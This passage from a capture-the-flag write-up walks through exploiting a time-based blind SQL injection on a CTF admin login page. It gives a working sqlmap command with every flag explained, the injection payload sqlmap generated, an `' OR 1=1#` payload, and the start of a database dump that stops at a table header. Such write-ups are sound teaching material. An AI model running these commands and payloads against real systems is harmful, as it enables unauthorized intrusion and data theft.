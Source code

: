 ![](/img/santhacklaus/netrunner1.gif "")

![](https://media.giphy.com/media/WuGSL4LFUMQU/giphy.gif "")

HOHO ! We found something ! We've got a sql injection vulnerability in the username ! Nice ! It's time to confirm that there is a mysql database behind the application.

{{< protips "You start to know me, I love to use cheatsheet. This on is nice to explore sql injection : https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20injection" >}}

![](/img/santhacklaus/netrunner2.gif "")

Nice this is MySql. So I imagine the php code behind will do advanced check to avoid to pass throught with `' OR 1=1#` injection. But I think it's the good moment to show you how to use Sqlmap with time based sql injection.

This article speak well about time based injection : http://www.sqlinjection.net/time-based/

{{< danger "Sqlmap is a real dangerous tool for weak application. You can easily DOS it with a --risk and --level too high. Set a delay in your command argument (ex : --delay 5 -> 5s of delay between each request) when you are not sure." >}}

So what do we have to set to Sqlmap :

- **Url (`-u`)** : `"http://51.75.202.113:2077/zetatech-admin.php"`
- **Http query (`--data`)** : `"username=test&password=test&login=Login"`
- **Vulnerable field (`-p`)** : `"username"`
- **HTTP method (`--method`)** : `POST`
- **SQL Injection technique (`--technique`)** : `T` for Time-Based
- **Level agressivity (`--level`)** : `5` maximum (sorry for the DOS :$)
- **Dangerousness for database integrity (`--risk`)** : `2` (3 is the maximum and can lead to an update of all the entries of the table)
- **Database engine (`--dbms`)** : `mysql`
- **Action to perform** : dump the database with `--dump`

```
[th1b4ud@th1b4ud-pc ~]$ sqlmap -u "http://51.75.202.113:2077/zetatech-admin.php" --data "username=test&password=test&login=Login" -p "username" --method POST --random-agent --technique=T --level=5 --risk=2 --dbms=mysql --dump
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.2.11#stable}
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 13:35:34

---
Parameter: username (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: username=test'||(SELECT 0x74657745 FROM DUAL WHERE 4732=4732 AND SLEEP(5))||'&password=test&login=Login
---

[...]

Database: ctf-zetatech-inc
Table: access
[2 entries]
+----+---------------+------------------------------------------------------------------+
```